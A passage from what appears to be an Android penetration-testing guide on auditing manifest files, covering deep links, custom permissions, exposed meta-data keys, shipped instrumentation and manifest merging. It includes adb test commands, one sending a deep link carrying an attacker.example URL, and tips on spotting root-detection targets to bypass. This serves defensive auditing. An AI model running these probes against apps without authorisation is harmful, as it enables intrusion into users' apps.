parameters; path traversal in `openFile`; and unauthenticated privileged operations in `call()`.
Chapter [27-ContentProviders](../27-ContentProviders/README.md) covers those in full.

### 3.10 `<intent-filter>` and its children

> **📖 Definition**
> An **intent filter** declares the kinds of implicit `Intent` a component is willing to receive. It
> is matched on three axes: **action** (a string naming the operation), **category** (extra
> qualifiers, all of which must be satisfied), and **data** (scheme/host/port/path and MIME type).
> An implicit intent matches a filter only if it satisfies all three tests.

```xml
<intent-filter android:priority="100" android:order="10" android:autoVerify="true"
               android:label="@string/filter_label">
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="https"
          android:host="app.example.com"
          android:port="443"
          android:path="/exact"
          android:pathPrefix="/open"
          android:pathPattern="/user/.*"
          android:pathSuffix=".pdf"
          android:pathAdvancedPattern="/v[0-9]+/item"
          android:mimeType="application/pdf"
          android:mimeGroup="dynamic_types"/>
</intent-filter>
```

| Attribute | API | Meaning · security relevance |
|---|---|---|
| `android:priority` | 1 | For ordered broadcasts, the delivery order; for activities, a tiebreak in resolution. Higher wins. The system reserves values above 1000. **A third-party app declaring a very high priority on a common action is trying to intercept it.** |
| `android:order` | 28 | Orders filters *within* the same component. Minor. |
| `android:autoVerify` | 23 | Requests **App Links verification**: the platform fetches `https://<host>/.well-known/assetlinks.json` and only auto-opens the link in this app if the file lists the app's package name and signing certificate digest. Without it, an `https` filter is just a **deep link**, and any other app can declare the same filter and win a disambiguation dialog. |
| `android:label`, `android:icon` | 1 | Cosmetic; shown in the chooser. |

| `<data>` attribute | API | Notes |
|---|---|---|
| `android:scheme` | 1 | `https`, `http`, or a **custom scheme** such as `myapp://`. Custom schemes are unverifiable and unowned — any app may declare the same scheme. |
| `android:host` | 1 | Supports a leading `*.` wildcard. **`android:host="*"` matches every host** and is a strong finding on a deep-link handler that trusts the host. |
| `android:port` | 1 | Only meaningful with a host. |
| `android:path` | 1 | Exact match. |
| `android:pathPrefix` | 1 | Prefix match on the raw path. |
| `android:pathPattern` | 1 | Glob, not regex (`*` = zero-or-more of preceding char, `.*` = anything). |
| `android:pathSuffix` | 31 | Suffix match. |
| `android:pathAdvancedPattern` | 31 | A restricted regex; supports character classes and ranges. |
| `android:mimeType` | 1 | Supports `type/*` and `*/*`. **`android:mimeType="*/*"` on an exported component means it will accept any content the attacker offers** — a common way to become a sink for hostile files. |
| `android:mimeGroup` | 30 | A named group whose MIME types the app can change at runtime via `PackageManager.setMimeGroup`. The manifest under-states the true surface; check the code. |

> **🔍 Pentester's Note — the deep link audit**
> For every `<intent-filter>` containing `BROWSABLE`, ask three questions.
> **(1) Is it verifiable?** `https` scheme with `autoVerify="true"` and a live `assetlinks.json`
> means only this app opens the link. Anything else — custom scheme, `http`, missing `autoVerify`,
> broken `assetlinks.json` — means a malicious app can register the same filter and intercept.
> Verify on-device with `adb shell pm get-app-links <pkg>`.
> **(2) What does the Activity do with the URI?** Trace `getIntent().getData()`. If it reaches a
> `WebView.loadUrl`, you likely have arbitrary-URL loading in the app's WebView context. If it reaches
> a token exchange, you may have an OAuth redirect interception. See
> [43-WebView](../43-WebView/README.md) and [45-OAuth](../45-OAuth/README.md).
> **(3) Can it be reached from a web page?** `BROWSABLE` means yes — a link, an iframe, or a
> `window.location` in the mobile browser reaches this component with attacker-controlled data. That
> converts a "local app" finding into a remote one and usually doubles the severity.
>
> ```bash
> # host — fire a deep link exactly as a browser would
> adb shell am start -a android.intent.action.VIEW \
>   -c android.intent.category.BROWSABLE \
>   -d "myapp://open?url=https://attacker.example/" \
>   com.example.target
>
> # host — check App Links verification state
> adb shell pm get-app-links com.example.target
> ```

### 3.11 Permissions — declaring, requesting, and protecting

#### `<uses-permission>`

```xml
<uses-permission android:name="android.permission.READ_CONTACTS"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
                 android:maxSdkVersion="28"/>
<uses-permission android:name="android.permission.BLUETOOTH_SCAN"
                 android:usesPermissionFlags="neverForLocation"/>
<uses-permission-sdk-23 android:name="android.permission.ACCESS_FINE_LOCATION"/>
```

| Attribute | API | Meaning |
|---|---|---|
| `android:name` | 1 | The permission string. |
| `android:maxSdkVersion` | 19 | The permission is only requested on platforms at or below this level. The standard pattern for `WRITE_EXTERNAL_STORAGE` after scoped storage. **A useful audit signal: it tells you the developer knows about the platform change.** |
| `android:usesPermissionFlags="neverForLocation"` | 31 | Asserts that Bluetooth scan results will not be used to derive location, so the platform does not additionally require location permission. A privacy declaration you can test against behaviour. |

`<uses-permission-sdk-23>` requests a permission **only when running on API 23+**, so that on older
platforms the app does not receive it at install time. It is a compatibility construct; seeing it
means the developer is being careful about install-time grants on old devices.

**Auditing the permission list** is not "count the dangerous ones". It is a two-column exercise:

| Question | How you answer it |
|---|---|
| Which requested permissions are `dangerous`? | `adb shell pm list permissions -d -g` gives the platform's list by protection level. |
| Which are actually used by the code? | Search the DEX for the corresponding APIs. A requested-but-unused permission is over-privilege — a real finding under MASVS-PLATFORM and a Play policy issue. |
| Which are *granted* right now? | `adb shell dumpsys package <pkg> | sed -n '/requested permissions/,/install permissions/p'` |
| Which are custom (not `android.permission.*`)? | Those are declared by *some* app on the device. Find out which, and what its `protectionLevel` is. |
| Which are `signature`-level platform permissions? | If a third-party app requests `android.permission.INSTALL_PACKAGES` or similar, it will simply not be granted — but its presence tells you what the developer wished for, which is useful on a malware assessment. |

High-signal permissions to flag on sight:

| Permission | Why it matters |
|---|---|
| `REQUEST_INSTALL_PACKAGES` | The app can trigger installation of other APKs. On a non-store app this is a dropper capability. |
| `QUERY_ALL_PACKAGES` | Defeats package-visibility filtering; a fingerprinting and targeting capability. Play restricts it to specific use cases. |
| `SYSTEM_ALERT_WINDOW` | Draw over other apps — the basis of overlay/tapjacking attacks. |
| `BIND_ACCESSIBILITY_SERVICE` (on a `<service>`) | Read and act on every screen. The single most abused capability in Android malware. |
| `BIND_DEVICE_ADMIN` | Device administration; can lock, wipe, and resist uninstall. |
| `BIND_NOTIFICATION_LISTENER_SERVICE` | Read every notification, including OTP codes. |
| `READ_SMS` / `RECEIVE_SMS` | OTP interception. |
| `MANAGE_EXTERNAL_STORAGE` | All-files access; see [33-Storage](../33-Storage/README.md). |
| `PACKAGE_USAGE_STATS` | Which apps the user runs and when. |
| `WRITE_SECURE_SETTINGS` | Not grantable to third-party apps, but a strong intent signal. |
| `RECORD_AUDIO`, `CAMERA`, `ACCESS_FINE_LOCATION` | Sensor access; check for a matching `foregroundServiceType`. |

#### `<permission>` — defining your own

```xml
<permission
    android:name="com.example.permission.SYNC"
    android:label="@string/perm_label"
    android:description="@string/perm_desc"
    android:permissionGroup="android.permission-group.PERSONAL_INFO"
    android:protectionLevel="signature"/>
```

> **📖 Definition**
> **`protectionLevel`** determines who can be granted a permission. It is a base level, optionally
> combined with one or more flags using `|`.

| Base level | Who gets it | Auditor's conclusion |
|---|---|---|
| `normal` | **Automatically granted to any app that requests it.** No user prompt, no signature check. | A `normal` custom permission provides **zero** access control. If a component is "protected" by a `normal` permission, it is not protected. This is one of the most common real findings. |
| `dangerous` | Granted only after an explicit user prompt at runtime (API 23+) or at install (below 23). | Meaningful, but the user is the control. A custom `dangerous` permission shows an app-authored prompt that users routinely accept. |
| `signature` | Granted only to apps signed with **the same certificate** as the declaring app. | The strong option. This is the correct level for inter-app IPC within a vendor's own suite. |
| `signatureOrSystem` (deprecated; now `signature|privileged`) | Same signature **or** a privileged system app. | Legacy; note it and recommend `signature`. |
| `internal` (API 31) | Not granted based on signature or user consent; only via the flags. | Rare. |

| Flag | Meaning · relevance |
|---|---|
| `privileged` | Grantable to apps in the privileged system partition. |
| `development` | Grantable via `pm grant` from shell — **which means you can grant it during testing even though a real attacker could not.** A frequent false-positive source. |
| `appop` | Backed by an AppOps entry; can be toggled independently of the permission. |
| `pre23` | Granted at install to apps targeting below 23. |
| `installer`, `verifier`, `preinstalled`, `setup`, `oem`, `vendorPrivileged`, `module`, `recents`, `role`, `companion`, `textClassifier`, `wellbeing`, `documenter`, `configurator`, `incidentReportApprover`, `appPredictor`, `retailDemo`, `knownSigner` | Grants to specific privileged roles or partitions. On a third-party app they will not take effect. |
| `instant` | The permission may be granted to instant apps. |
| `runtime` | Upgraded from install-time to runtime for apps targeting a newer SDK. |
| `knownSigner` (API 31) | Grantable to apps signed by any certificate listed in the declaring app's `android:knownCerts` resource. Lets a vendor share a permission across two signing identities without a shared key — a genuinely useful modern feature. |

> **⚠️ Warning — the custom-permission race**
> If two apps declare the same custom permission name, the **first one installed** wins, and its
> `protectionLevel` is the one that applies. A malicious app installed *before* the victim can define
> `com.example.permission.SYNC` as `normal`, then have that weaker definition govern the victim's
> component. The platform has hardened this over time (a permission whose defining package is
> uninstalled is removed, and same-name conflicts across different signatures are handled more
> strictly on modern releases), but the general lesson stands: **a custom permission is only as
> strong as the guarantee that your app defines it.** Prefer `signature` level, and prefer namespacing
> the permission under your package name so that squatting is at least conspicuous.

#### `<permission-group>` and `<permission-tree>`

```xml
<permission-group android:name="com.example.permission-group.DATA"
                  android:label="@string/group_label"
                  android:description="@string/group_desc"/>

<permission-tree android:name="com.example.permission.dynamic"
                 android:label="@string/tree_label"/>
```

A **permission group** is a UI grouping only; on modern Android the runtime prompt is per-permission,
and grouping affects presentation rather than enforcement. A **permission tree** reserves a namespace
so the declaring app may add permissions dynamically at runtime via
`PackageManager.addPermission()`. A permission tree is worth noting because it means **the app's
permission surface is not fully described by the manifest** — permissions can appear later.

### 3.12 `<queries>` and package visibility

From `targetSdk` 30, an app cannot see every other installed package. `getInstalledPackages()`,
`queryIntentActivities()`, `getPackageInfo()` and `resolveActivity()` return a filtered view
containing only packages the app is allowed to see.

```xml
<queries>
    <package android:name="com.other.app"/>
    <intent>
        <action android:name="android.intent.action.SEND"/>
        <data android:mimeType="image/*"/>
    </intent>
    <provider android:authorities="com.other.app.provider"/>
</queries>
```

| Construct | Effect |
|---|---|
| `<package android:name>` | Makes one named package visible. |
| `<intent>` | Makes visible every package with a matching filter. |
| `<provider android:authorities>` | Makes visible the package owning that authority. |
| `<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>` | Disables filtering entirely. |

For an auditor, `<queries>` is a **statement of intent that you can compare against behaviour**. An
app that lists a competitor's package, a rooting tool's package, or a long list of banking apps in
`<queries>` is telling you what it looks for. This is a standard reconnaissance step on malware and
on aggressive anti-fraud SDKs.

> **🔍 Pentester's Note**
> `QUERY_ALL_PACKAGES` is a Play-restricted permission. Finding it in a store app that has no
> file-manager, launcher, antivirus or device-management function is worth reporting as both a
> privacy issue and a policy risk. Also read `<queries>` for root-detection targets — a list
> containing `com.topjohnwu.magisk`, `eu.chainfire.supersu` or `de.robv.android.xposed.installer`
> tells you exactly which checks to defeat, before you have read a single line of code. See
> [37-RootDetection](../37-RootDetection/README.md).

### 3.13 Libraries and features

```xml
<uses-library android:name="org.apache.http.legacy" android:required="false"/>
<uses-native-library android:name="libmediandk.so" android:required="false"/>
<uses-sdk-library android:name="com.example.sdklib" android:versionMajor="1"
                  android:certDigest="AB:CD:…"/>
<uses-static-library android:name="com.example.staticlib" android:version="3"
                     android:certDigest="AB:CD:…"/>

<uses-feature android:name="android.hardware.camera" android:required="true"/>
<uses-feature android:name="android.hardware.telephony" android:required="false"/>
<uses-feature android:glEsVersion="0x00020000" android:required="true"/>
```

| Element | API | Security relevance |
|---|---|---|
| `<uses-library>` | 1 | Requests a **shared Java library** from the platform be added to the app's class loader. `org.apache.http.legacy` is the common one: it restores the removed Apache HTTP client, which has weaker TLS defaults and does not honour Network Security Config in the same way. Its presence is a hint that HTTP handling may bypass the modern stack. |
| `<uses-native-library>` | 31 | Declares a dependency on a specific NDK/vendor `.so` from the system. Restricts what the app may `dlopen` from the system partitions. Informational, but tells you the app uses native media/graphics APIs. |
| `<uses-static-library>` / `<uses-sdk-library>` | 26 / 31 | Depend on a versioned library APK, pinned by **certificate digest**. The digest pinning is a genuine integrity control; note it as a positive. |
| `<uses-feature>` | 4 | Declares hardware/software requirements. `android:required="false"` is a compatibility declaration, not a security control. **Its audit value is as a capability inventory**: `android.hardware.telephony`, `android.hardware.camera`, `android.hardware.fingerprint`, `android.hardware.nfc`, `android.software.device_admin` each tell you what the app touches. It is also a well-known Play Store filtering mechanism, which is why some apps declare `required="false"` for everything. |

### 3.14 `<meta-data>` — where secrets hide

```xml
<application>
    <meta-data android:name="com.google.android.geo.API_KEY" android:value="AIzaSy…"/>
    <meta-data android:name="com.example.sdk.API_SECRET" android:value="s3cr3t-…"/>
    <meta-data android:name="io.sentry.dsn" android:value="https://key@sentry.io/123"/>
    <meta-data android:name="com.example.CONFIG" android:resource="@xml/config"/>
</application>
```

> **📖 Definition**
> **`<meta-data>`** attaches an arbitrary name/value pair to the application or to a component. The
> value is readable at runtime through `PackageManager.getApplicationInfo(pkg,
> PackageManager.GET_META_DATA).metaData`. SDKs use it as a configuration channel so that an
> integrator can configure a library without writing code.

This is a genuine, recurring finding source, for a structural reason: **an SDK's documentation tells
the developer to paste a key into the manifest.** The developer complies. The key ships in every
copy of the APK, in plaintext, in a file that is trivially readable by anyone who downloads the app.

| `<meta-data>` name pattern | What it usually is | Is it actually a finding? |
|---|---|---|
| `com.google.android.geo.API_KEY` | Google Maps API key | Only if unrestricted. A key restricted to the app's package name + SHA-1 signing digest is largely fine. Check the restriction in the Google Cloud console — which you cannot do, so report it as "verify restriction". |
| `com.google.android.gms.ads.APPLICATION_ID` | AdMob app ID | Public by design. Not a finding. |
| `com.facebook.sdk.ApplicationId` / `ClientToken` | Facebook app ID / client token | The app ID is public; a **client token** is semi-sensitive. Check which one it is. |
| `io.sentry.dsn` | Sentry DSN | Public-write-only by design, but it lets an attacker flood the client's error budget. Low. |
| Anything named `*SECRET*`, `*PRIVATE*`, `*PASSWORD*`, `*TOKEN*` | An actual secret | **High.** Verify it is live before reporting. |
| `firebase_database_url`, `google_api_key` (usually in `res/values/strings.xml` from `google-services.json`) | Firebase config | The key is public by design; the finding is the **Firebase security rules**, which you test by making a request. |
| `android.support.FILE_PROVIDER_PATHS` | `FileProvider` path config | Not a secret, but **always read the referenced XML**: a `<root-path name="root" path="/"/>` entry exposes the entire filesystem the app can read. |
| `android.app.searchable`, `android.appwidget.provider`, `android.accounts.AccountAuthenticator` | Component configuration XML | Read them; the account authenticator XML in particular describes an inter-app credential surface. |

> **🔍 Pentester's Note**
> The correct workflow is: extract every `<meta-data>` value; extract every value that is
> `android:resource="@xml/…"` and read the referenced file; then classify. A `value` that looks like a
> key is a *candidate*, not a finding. Validate it — a Google Maps key restricted to a package and
> signature is not exploitable, and reporting it as critical will cost you credibility. Where a key
> is genuinely usable, demonstrate the usage; where you cannot validate, say so explicitly and
> recommend the client verify server-side restrictions.

`<meta-data>` also appears on components, and there it is often functional rather than
secret-bearing:

```xml
<service android:name=".MyAccessibilityService" android:exported="true"
         android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService"/>
    </intent-filter>
    <meta-data android:name="android.accessibilityservice"
               android:resource="@xml/accessibility_config"/>
</service>
```

The referenced `@xml/accessibility_config` declares `canRetrieveWindowContent`,
`canPerformGestures`, `accessibilityEventTypes` and `packageNames`. On a malware assessment that file
tells you exactly what the accessibility service is allowed to observe and do, and it is far more
informative than the manifest entry.

### 3.15 `<profileable>`, `<instrumentation>`, `<attribution>`, `<property>`

```xml
<profileable android:shell="true" android:enabled="true"/>

<instrumentation android:name="androidx.test.runner.AndroidJUnitRunner"
                 android:targetPackage="com.example.target"
                 android:functionalTest="false"
                 android:handleProfiling="false"
                 android:targetProcesses="*"/>

<attribution android:tag="analytics" android:label="@string/attr_analytics"/>

<property android:name="android.window.PROPERTY_ACTIVITY_EMBEDDING_SPLITS_ENABLED"
          android:value="true"/>
```

| Element | API | What it does | Audit conclusion |
|---|---|---|---|
| `<profileable android:shell="true">` | 29 | Allows `shell` (UID 2000) to profile the app with `simpleperf`, `perfetto` and heap dumps **on a production, non-debuggable build**. | **Medium.** It is not `debuggable` — you do not get `run-as` or JDWP — but you do get memory profiling and native stack sampling from an unprivileged shell, which can expose secrets held in memory. Report it as an unnecessary production capability unless the client explicitly wants field profiling. |
| `<instrumentation>` | 1 | Declares a test runner that can be launched with `am instrument`, running **inside the target app's process with the target app's UID and permissions**, before or alongside its normal code. | **High as an indicator, potentially Critical in effect.** A shipped `<instrumentation>` tag whose `targetPackage` is the app itself means anyone with `adb` can run the app's own test code, or — if the instrumentation class lives in the APK — arbitrary code inside the app's sandbox: `adb shell am instrument -w com.example.target/androidx.test.runner.AndroidJUnitRunner`. It also strongly indicates that a test artefact was shipped. Always check whether the referenced runner class actually exists in the DEX. |
| `<attribution>` | 31 | Names a sub-identity within the app for permission attribution, so the platform can tell the user *which part* of the app used a permission. | Positive hygiene signal. |
| `<property>` | 31 | Typed application/component properties readable via `PackageManager.getProperty`. Used for platform opt-ins and for `specialUse` foreground service justifications. | Read them; `PROPERTY_SPECIAL_USE_FGS_SUBTYPE` contains the developer's own explanation of what their background service does. |

> **⚠️ Warning**
> An `<instrumentation>` element in a production APK is one of the highest-signal single findings in
> a manifest, and it is missed constantly because auditors stop reading after `<application>`.
> `<instrumentation>` is a **sibling** of `<application>`, not a child, so it sits at the bottom of
> the file where nobody looks.

### 3.16 Everything else, briefly

| Element | Purpose | Security relevance |
|---|---|---|
| `<supports-screens>` | Legacy screen-size support | None |
| `<compatible-screens>` | Play Store filtering | None |
| `<uses-configuration>` | Legacy hardware input requirements | None |
| `<supports-gl-texture>` | Play filtering | None |
| `<original-package>` | Used when a package is renamed | Rare; note it, since it affects identity |
| `<protected-broadcast>` | **System apps only.** Declares a broadcast action that only the system may send. | If present in a third-party APK it has no effect, but it tells you the developer copied a system manifest |
| `<adopt-permissions>` | Inherit permissions from a renamed package | Very rare |
| `<key-sets>` / `<upgrade-key-set>` | Key rotation declarations | Rarely used in practice |

### 3.17 Manifest merging — how components you never wrote appear in your APK

> **📖 Definition**
> The **manifest merger** is a Gradle/AGP task that combines the application's own manifest with the
> manifest of every library (AAR) it depends on, plus build-type and product-flavour manifests, into
> a single merged manifest that is then compiled into the APK.

The merge order, from highest priority to lowest:



Higher-priority manifests win attribute conflicts; lower-priority manifests contribute elements that
the higher ones did not declare. The consequences that produce findings:

1. **A library can add a component.** Firebase, WorkManager, AndroidX Startup, LeakCanary, most
   analytics SDKs and most crash reporters add a `<provider>` purely so their code runs before
   `Application.onCreate()`. Those providers are usually `exported="false"` and harmless — but you
   must verify rather than assume.
2. **A library can add a permission.** An ad SDK adding `ACCESS_COARSE_LOCATION` or
   `AD_ID` changes the app's privacy posture without the developer typing anything.
3. **A library can raise the effective `minSdkVersion`**, and can add `<uses-feature>` entries that
   silently change Play Store availability.
4. **A debug-build manifest can add `usesCleartextTraffic="true"` or a debug Network Security
   Config**, and if the build type is misconfigured it reaches production.

The `tools:` namespace controls the merge:

| Marker | Effect |
|---|---|
| `tools:node="merge"` | Default. Merge attributes and children. |
| `tools:node="replace"` | Replace the lower-priority element entirely. |
| `tools:node="remove"` | Remove the element contributed by a lower-priority manifest. **This is how you delete a library's injected component.** |
| `tools:node="removeAll"` | Remove all matching elements of this type. |
| `tools:node="mergeOnlyAttributes"` | Merge attributes but not children. |
| `tools:node="strict"` | Fail the build if there is any conflict. |
| `tools:replace="attr1,attr2"` | Override specific attributes that would otherwise conflict. |
| `tools:remove="attr1"` | Remove an attribute contributed by a lower-priority manifest. |
| `tools:overrideLibrary="com.lib.pkg"` | Permit a library with a higher `minSdkVersion` than the app. **Suppresses a real compatibility warning; worth flagging.** |
| `tools:selector="com.lib.pkg"` | Apply the node marker only to a specific library's contribution. |
| `tools:targetApi` | Lint-only; no runtime effect. |

The canonical way for a developer to remove an injected component:

```xml
<!-- app/src/main/AndroidManifest.xml — disable an SDK's auto-init provider -->
<provider
    android:name="com.google.firebase.provider.FirebaseInitProvider"
    android:authorities="${applicationId}.firebaseinitprovider"
    tools:node="remove" />
```

And the way to remove an injected permission:

```xml
<uses-permission android:name="com.google.android.gms.permission.AD_ID" tools:node="remove"/>
```

#### Inspecting the merged result

With source access:

```bash
# host, in the project root — the merged manifest for a given variant
find app/build/intermediates -name AndroidManifest.xml -path '*merged_manifest*'

# host — the merger's own report: which manifest contributed which line, and why
cat app/build/outputs/logs/manifest-merger-release-report.txt
```

That report is the single most useful artefact for this problem. It lists every node with its
origin — `ADDED from [com.squareup.leakcanary:leakcanary-android:2.12] .../AndroidManifest.xml:12` —
and every merge decision. In Android Studio, opening `AndroidManifest.xml` and choosing the **Merged
Manifest** tab shows the same information interactively.

Without source access, you cannot see the report, but you can still attribute components:

```bash
# host — every component in the shipped APK
aapt2 dump xmltree --file AndroidManifest.xml target.apk \
  | grep -E '^\s+E: (activity|activity-alias|service|receiver|provider)' -A3

# host — components whose class name is not under the app's own package
#         (a strong hint that a library contributed them)
```

A component whose `android:name` begins with `com.google.`, `com.facebook.`, `io.branch.`,
`com.appsflyer.`, `com.adjust.`, `androidx.` or similar was almost certainly injected by a
dependency. Match the package prefix against the `.dex` class list to identify the SDK and its
version, then check whether that version has known issues.

> **🔍 Pentester's Note**
> When you report an injected component as a finding, name the SDK. "Your app exports
> `com.example.MainActivity`" is actionable. "Your app exports a receiver at
> `com.somesdk.PushReceiver`, contributed by the SomeSDK dependency, and here is the `tools:node`
> snippet to remove it or the `exported` override to close it" is *fixable*, and that difference is
> what gets a finding remediated instead of disputed.

---

## 4. Source Code Walkthrough (AOSP)

This section traces one complete path: from the bytes of `AndroidManifest.xml` inside an APK, through
parsing, into `PackageManagerService`, and finally into the runtime check that decides whether an
attacker's `Intent` reaches your Activity.

### 4.1 The files that matter

| Path | Role |
|---|---|
| `frameworks/base/libs/androidfw/ResourceTypes.cpp` | `ResXMLTree` / `ResXMLParser` — the C++ AXML parser. The authority on the binary format. |
| `frameworks/base/libs/androidfw/include/androidfw/ResourceTypes.h` | The chunk and `Res_value` struct definitions quoted in §3.1. |
| `frameworks/base/core/java/android/content/res/XmlBlock.java` | The Java wrapper that exposes `ResXMLTree` as an `XmlResourceParser`. |
| `frameworks/base/core/java/android/content/pm/PackageParser.java` | The historical manifest parser (pre-Android 11). Still the clearest single-file description of the whole grammar. |
| `frameworks/base/services/core/java/com/android/server/pm/pkg/parsing/ParsingPackageUtils.java` | The modern parser that replaced most of `PackageParser`. |
| `frameworks/base/services/core/java/com/android/server/pm/parsing/` | Package-manager-side parsing helpers and caching. |
| `frameworks/base/core/java/android/content/pm/ActivityInfo.java`, `ServiceInfo.java`, `ProviderInfo.java`, `PermissionInfo.java`, `ApplicationInfo.java` | The parcelable result objects. Every manifest attribute ends up as a field or a flag bit here. |
| `frameworks/base/services/core/java/com/android/server/pm/PackageManagerService.java` | Owns the installed-package database and answers component queries. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` | Where the export/permission check for starting an Activity is performed. |
| `frameworks/base/core/java/android/content/ContentProvider.java` | `enforceReadPermissionInner` / `enforceWritePermissionInner` — the path-permission logic in §3.9. |
| `frameworks/base/core/res/res/values/attrs_manifest.xml` | **The definitive list of every manifest attribute the platform understands, with its resource ID.** If an attribute is not in this file, the platform ignores it. |
| `frameworks/base/core/res/AndroidManifest.xml` | The platform's own manifest: every `android.permission.*` definition with its real `protectionLevel`. |

> **🔬 Under the Hood**
> `frameworks/base/core/res/AndroidManifest.xml` is worth an hour of your time on its own. It is
> where you look up the true `protectionLevel` of any platform permission, rather than trusting the
> developer documentation, which occasionally lags. When you need to answer "could a third-party app
> ever hold `android.permission.WRITE_SECURE_SETTINGS`?", this file answers it definitively.

### 4.2 From bytes to `PackageInfo`

The call flow at install time, in outline:



The key structural fact for a tester: **after install, nothing consults the APK's manifest again for
permission decisions.** The decisions are made against `PackageManagerService`'s parsed model, which
was persisted to `/data/system/packages.xml` and reloaded at boot. That is why
`adb shell dumpsys package <pkg>` is ground truth and your `apktool` output is a hypothesis.

You can look at the persisted record directly on a rooted device:

```bash
# adb shell as root — the platform's own view of every installed package
cat /data/system/packages.xml | sed -n '/package name="com.example.target"/,/<\/package>/p'
```

### 4.3 How an attribute becomes a flag bit

`ParsingPackageUtils` reads attributes by resource ID from `R.styleable` arrays and folds many of them
into bit flags on `ApplicationInfo`. The illustrative pattern (condensed from AOSP; the exact shape
has changed across releases, so read it as structure rather than as a quotation):

```java
// AOSP: services/core/java/com/android/server/pm/pkg/parsing/ParsingPackageUtils.java (illustrative)
final boolean debuggable = sa.getBoolean(
        R.styleable.AndroidManifestApplication_debuggable, false);
if (debuggable) {
    pkg.setDebuggable(true);   // → ApplicationInfo.FLAG_DEBUGGABLE
}

final boolean allowBackup = sa.getBoolean(
        R.styleable.AndroidManifestApplication_allowBackup, true);   // note the default: true
pkg.setAllowBackup(allowBackup); // → ApplicationInfo.FLAG_ALLOW_BACKUP
```

The `ApplicationInfo` flag constants you will meet when reading `dumpsys` output:

| Flag | Bit | Manifest source |
|---|---|---|
| `FLAG_SYSTEM` | `0x00000001` | Installed on the system partition |
| `FLAG_DEBUGGABLE` | `0x00000002` | `android:debuggable="true"` |
| `FLAG_HAS_CODE` | `0x00000004` | `android:hasCode` |
| `FLAG_PERSISTENT` | `0x00000008` | `android:persistent` |
| `FLAG_FACTORY_TEST` | `0x00000010` | Factory-test builds |
| `FLAG_ALLOW_TASK_REPARENTING` | `0x00000020` | `android:allowTaskReparenting` |
| `FLAG_ALLOW_CLEAR_USER_DATA` | `0x00000040` | `android:allowClearUserData` |
| `FLAG_UPDATED_SYSTEM_APP` | `0x00000080` | An update to a preinstalled app |
| `FLAG_TEST_ONLY` | `0x00000100` | `android:testOnly="true"` |
| `FLAG_ALLOW_BACKUP` | `0x00008000` | `android:allowBackup` |
| `FLAG_KILL_AFTER_RESTORE` | `0x00010000` | `android:killAfterRestore` |
| `FLAG_RESTORE_ANY_VERSION` | `0x00020000` | `android:restoreAnyVersion` |
| `FLAG_EXTERNAL_STORAGE` | `0x00040000` | Installed on adopted storage |
| `FLAG_LARGE_HEAP` | `0x00100000` | `android:largeHeap` |
| `FLAG_STOPPED` | `0x00200000` | Force-stopped state (runtime, not manifest) |
| `FLAG_SUPPORTS_RTL` | `0x00400000` | `android:supportsRtl` |
| `FLAG_INSTALLED` | `0x00800000` | Installed for this user |
| `FLAG_IS_DATA_ONLY` | `0x01000000` | Data present, APK missing |
| `FLAG_IS_GAME` | `0x02000000` | `android:isGame` (deprecated) |
| `FLAG_FULL_BACKUP_ONLY` | `0x04000000` | `android:fullBackupOnly` |
| `FLAG_USES_CLEARTEXT_TRAFFIC` | `0x08000000` | `android:usesCleartextTraffic` |
| `FLAG_EXTRACT_NATIVE_LIBS` | `0x10000000` | `android:extractNativeLibs` |
| `FLAG_HARDWARE_ACCELERATED` | `0x20000000` | `android:hardwareAccelerated` |
| `PRIVATE_FLAG_DIRECT_BOOT_AWARE` | private flags | `android:directBootAware` |

> **🔍 Pentester's Note**
> This table is how you read `dumpsys` output that shows raw hex. When you see
> `flags=[ HAS_CODE ALLOW_CLEAR_USER_DATA ALLOW_BACKUP DEBUGGABLE ]`, you have just confirmed a
> critical finding from the device rather than from a decoder that might be wrong. On builds where
> `dumpsys` prints numeric flags instead of names, AND the value against `0x2` to test
> `FLAG_DEBUGGABLE`.

### 4.4 The runtime check: `exported` and `permission` for an Activity

When app A calls `startActivity` for app B's component, the request travels over Binder to
`ActivityTaskManagerService`, which delegates to `ActivityStarter`. The relevant checks, in the order
they occur:

